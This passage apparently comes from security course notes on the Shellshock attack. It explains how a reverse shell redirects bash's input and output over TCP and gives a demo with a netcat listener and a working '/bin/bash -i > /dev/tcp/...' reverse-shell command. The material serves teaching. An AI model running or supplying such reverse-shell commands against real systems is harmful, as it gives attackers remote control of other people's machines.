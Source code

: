 ### What command to inject: Reverse Shell

- attacker
  - `netcat` server (tcp)
    - 0
    - 1
    - 2

- &#8597; tcp connection 

- server
  - `/bin/bash`
    - stdin: 0
    - stdout: 1
    - stder: 3
  - redirect
    - 0: input from tcp connection
    - 1: use tcp connection
    - 2: use tcp connection


## 4.13 Demo: Reverse Shell

- Attacker
  - `nc -l 9090 -v`
- Server
  - `/bin/bash -i > /dev/tcp/10.0.2.7/9090 2>&1 0<&1`

## 4.15 Summary
([top](#directory))

- how shellshock attack works
- conduct shellshock attack
- reverse shell